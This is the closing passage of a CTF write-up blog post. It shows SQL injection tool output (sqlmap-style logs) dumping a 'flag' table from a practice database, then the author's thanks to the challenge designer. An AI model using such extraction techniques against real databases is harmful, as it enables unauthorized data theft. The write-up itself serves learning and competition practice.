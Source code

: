 ```
[18:14:18] [INFO] fetching columns for table 'flag' in database 'app'
[18:14:18] [INFO] resumed: 'flag'
[18:14:18] [INFO] resumed: 'varchar(32)'
[18:14:18] [INFO] fetching entries for table 'flag' in database 'app'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[18:14:24] [INFO] retrieved: 'hackaday{d0u...
Database: app
Table: flag
[1 entry]
+--------------------------+
| flag                     |
+--------------------------+
| hackaday{[..snip..] |
+--------------------------+
```


Lastly, a lot of thanks to the designer of the CTF Challenge, It has been great fun. If you were in the real competition and come across a different approach and would like to exchange ideas, feel free to [contact me](https://the-quidpr0quo.github.io/about/) :)😊 Happy Hackaday~

